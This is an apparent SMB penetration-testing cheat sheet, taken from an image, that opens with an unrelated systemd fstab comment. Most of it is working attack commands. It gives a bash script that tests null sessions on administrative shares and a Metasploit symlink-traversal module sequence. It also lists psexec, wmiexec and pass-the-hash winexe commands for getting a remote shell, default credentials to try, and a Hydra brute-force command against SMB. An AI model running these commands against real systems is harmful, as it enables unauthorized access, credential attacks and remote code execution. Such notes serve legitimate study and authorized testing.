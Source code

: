 ```text
    `systemd` generates mount units based on this file: `systemd.mount(5)`
    NOTE: run 'systemctl daemon-reload' after making changes here.
```

#### PrivEsc | BASH SCRIPT TO ESTABLISH A NULL SESSION:
```text
#/bin/bash

ip='<TARGET-IP-HERE>'
shares=('C$' 'D$' 'ADMIN$' 'IPC$' 'PRINT$' 'FAX$' 'SYSVOL' 'NETLOGON')

for share in ${shares[*]}; do
    output=$(smbclient -U '%' -N \\\\$ip\\$share -c '') 

    if [[ -z $output ]]; then 
        echo "[+] creating a null session is possible for $share" # no output if command goes through, thus assuming that a session was created
    else
        echo $output # echo error message (e.g. NT_STATUS_ACCESS_DENIED or NT_STATUS_BAD_NETWORK_NAME)
    fi
done
```

#### nulllinux
- `python3 nullinux.py -a 10.11.1.120`

#### msf
```text
msf > use auxiliary/admin/smb/samba_symlink_traversal
msf auxiliary(samba_symlink_traversal) > show actions
    ...actions...
msf auxiliary(samba_symlink_traversal) > set ACTION < action-name >
msf auxiliary(samba_symlink_traversal) > show options
    ...show and set options...
msf auxiliary(samba_symlink_traversal) > run
```

#### Pop a shell
- `psexec.py '<username>:<password>@$ip'`
- `wmiexec.py '<username>:<password>@$ip'`
- `winexe -U '<username>%<password>' //$ip cmd.exe`
- `pth-winexe -U '<username>%<lm_hash>:<nt_hash>' //$ip cmd.exe`

#### SMB Exploitation | Default Creds
```text
Try default creds 
    admin/admin, administrator/administrator, test/test, user/user, etc.,
```

#### SMB Exploitation | Brute Force with HYDRA
- `hydra -l root -P /usr/share/wordlists/rockyou.txt $ip smb -V`

